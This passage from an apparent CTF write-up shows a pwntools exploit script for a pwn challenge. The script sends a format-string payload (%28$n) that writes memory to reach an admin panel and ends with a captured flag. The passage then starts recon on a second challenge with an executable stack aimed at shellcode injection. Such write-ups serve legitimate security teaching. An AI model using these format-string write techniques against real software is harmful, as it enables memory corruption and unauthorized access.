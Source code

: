 ```python
continue
'''.format(**locals())

# -- Exploit goes here --
io = start()
pay1 = b"AAAAA%28$n" # offset differs locally

# Send payload to register
io.sendlineafter(b"> ", b"1")
io.recv()
io.sendline(pay1)

# Sender payload to login
io.sendlineafter(b"> ", b"2")
io.recv()
io.sendline(pay1)

# Invoke show_profile to write
io.sendlineafter(b"> ", b"3")

# Invoke admin_panel
io.sendlineafter(b"> ", b"4")

io.recv()
io.sendline(b"-10")

io.interactive()
```

> Format string offset will differ from local environment and remote environment, so you need bruteforce it, it was 28 for me on remote instance
{: .prompt-tip }

> _YAO{Y0u_Ar3_S0_Lucky_GGWp}_

---

## [Pwn] Lucky
### Recon Stage 🔍

![checksec](https://miro.medium.com/v2/resize:fit:640/format:webp/1*MoPIuFk08kFcDnNK9CNDdA.png)

Oh, **stack is executable**, it’s mostly a shellcode injection, let’s run it and make sure.

![exe](https://miro.medium.com/v2/resize:fit:640/format:webp/1*2kn7ZxcHjl2fnMvKHq5hdw.png)

It reads a number from 0–999 and compares it with a random generated value.

Let’s see pseudo-code to know what happens after that

![code](https://miro.medium.com/v2/resize:fit:720/format:webp/1*dLWLtFcV2e3rHPVurf8FIg.png)
